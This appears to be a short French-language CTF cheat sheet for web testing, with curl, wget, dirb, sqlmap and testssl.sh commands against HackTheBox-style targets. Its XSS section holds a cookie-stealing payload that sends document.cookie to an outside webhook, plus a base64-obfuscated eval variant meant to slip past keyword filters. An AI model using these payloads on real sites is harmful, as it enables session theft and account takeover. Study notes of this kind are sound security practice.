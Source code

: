 # Web

## Outils

Curl :
```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version courte
wget -r -l1 --page-requisite --convert-links --html-extension --timestamping url
# version longue
wget -r -l1 -p -k -E -N url
```

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Scan d'URL web

>Attention ! Ne pas utiliser en CTF réaliste
```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
